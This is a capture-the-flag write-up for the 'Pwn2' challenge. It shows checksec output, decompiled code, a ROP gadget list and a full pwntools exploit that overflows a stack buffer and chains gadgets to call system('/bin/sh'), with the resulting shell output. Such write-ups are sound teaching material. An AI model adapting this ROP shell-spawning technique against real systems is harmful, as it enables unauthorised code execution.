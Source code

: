 ```yaml
---
title: Pwn2
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

There is no win function this time! 

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE.

```
$ checksec pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols	  No	0		1		pwn2
```


When we open the binary in Ghidra, we are greeted with the following main function:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(input,0x19,stdin);
  puts("Wrong Answer! I\'ll give you another chance!\n");
  puts("Would you like a flag?");
  fgets(local_28,0x60,stdin);
  system("cat fake_flag.txt");
  return;
}
```
We notice the global variable ``input`` and local variable ``local_28``. The input is passed to two different variables. Again a buffer overflow on ``local_28``, but this time with no win function, like the descriptions says.

The idea would be maybe to write ``/bin/sh`` in the data section, through the ``input`` variable, and then use it in a ROP chain to call ``system``, which is imported in the binary already.

So let's ROP it.
```
$ ROPgadget --binary pwn2 | grep ret
0x000000000040110b : add bh, bh ; loopne 0x401175 ; nop ; ret
0x0000000000401228 : add byte ptr [rax - 0x77], cl ; ret 0x19be
0x00000000004010dc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010de : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040110a : add dil, dil ; loopne 0x401175 ; nop ; ret
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010e3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004010e0 : endbr64 ; ret
0x0000000000401286 : leave ; ret
0x000000000040110d : loopne 0x401175 ; nop ; ret
0x0000000000401176 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401285 : nop ; leave ; ret
0x00000000004011fa : nop ; pop rbp ; ret
0x000000000040110f : nop ; ret
0x0000000000401178 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040117d : pop rbp ; ret
0x0000000000401196 : pop rdi ; ret
0x000000000040101a : ret
0x000000000040122b : ret 0x19be
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. So the full exploit is simply:

```py
#!/usr/bin/env python3

from pwn import *

target = remote("challs.n00bzunit3d.xyz", 61223)
#target = process("./pwn2")

target.sendline(b"/bin/sh\x00") # send /bin/sh for first input

sys_addr = p64(0x00401080) # system address
pop_rdi_gadget = p64(0x0000000000401196) # pop rdi ; ret address
ret_gadget = p64(0x000000000040101a) # ret gadget - stack needs to be 16-bytes aligned for system()
sh_addr = p64(0x00404090) # /bin/sh address (the global input variable's address)

payload = b"a" * 0x28 + ret_gadget + pop_rdi_gadget + sh_addr + sys_addr

#gdb.attach(target)
target.sendline(payload)
target.interactive()
```

Notice the ``ret`` gadget, used as a ``NOP`` to align the stack to 16 bytes, which is a necessary precondition to calling ``system()``. Failing to do so will result in a segmentation fault.

We run the exploit:
```
$ ./solve.py 
[+] Starting local process './pwn2': pid 25704
[*] Switching to interactive mode
Would you like a flag?
Wrong Answer! I'll give you another chance!

Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```

Easy shells.
